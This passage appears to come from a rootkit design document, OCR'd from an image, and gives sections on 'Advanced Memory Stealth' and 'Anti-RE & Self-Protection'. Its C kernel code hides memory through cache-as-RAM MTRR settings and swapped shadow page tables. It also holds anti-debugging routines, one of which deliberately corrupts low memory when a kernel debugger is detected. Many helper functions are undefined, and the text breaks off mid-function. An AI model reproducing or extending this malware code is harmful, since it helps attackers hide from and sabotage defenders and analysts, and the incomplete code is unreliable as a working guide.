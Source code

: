 
### **4. Advanced Memory Stealth**
**Implementation**:
```c
// Cache-as-RAM setup
void SetupCar(uint64_t physBase, size_t size) {
    // 1. Configure MTRRs
    __writemsr(IA32_MTRR_PHYSBASE0, physBase | MTRR_TYPE_WB);
    __writemsr(IA32_MTRR_PHYSMASK0, (~(size-1)) | MTRR_VALID);
    
    // 2. Invalidate caches
    __wbinvd();
    
    // 3. Map hidden memory
    void* virtAddr = MmMapIoSpace(physBase, size, MmNonCached);
    SetupHiddenMapping(virtAddr, size);
}

// Shadow page tables for memory hiding
void InitShadowTables() {
    // 1. Clone original tables
    CR3 originalCr3 = __readcr3();
    CR3 shadowCr3 = ClonePageTables(originalCr3);
    
    // 2. Modify shadow entries
    RemapHiddenRegions(shadowCr3);
    
    // 3. Enable shadow tables
    __writecr3(shadowCr3.value);
    
    // 4. Hide page table modifications
    InvalidateTlbAll();
}
```

---

### **5. Anti-RE & Self-Protection**
**Implementation**:
```c
// Runtime integrity verification
void SelfCheck() {
    // 1. Validate code section hash
    uint8_t currentHash[SHA256_DIGEST_SIZE];
    Sha256(DRIVER_BASE, DRIVER_SIZE, currentHash);
    
    if(memcmp(currentHash, KNOWN_HASH, SHA256_DIGEST_SIZE)) {
        // 2. Detect debuggers
        if(CheckKdPresent()) {
            CorruptMemory(0x0, 0x1000); // Destroy low memory
        }
        
        // 3. Trigger misdirection
        InitiateCountermeasures();
    }
    
    // 4. Validate function hooks
    VerifyHooksIntegrity();
}

// Anti-debug techniques
void AntiDebugRoutine() {
    // 1. Check debug registers
    if(__readdr(7) & DR7_ACTIVE_MASK) {
```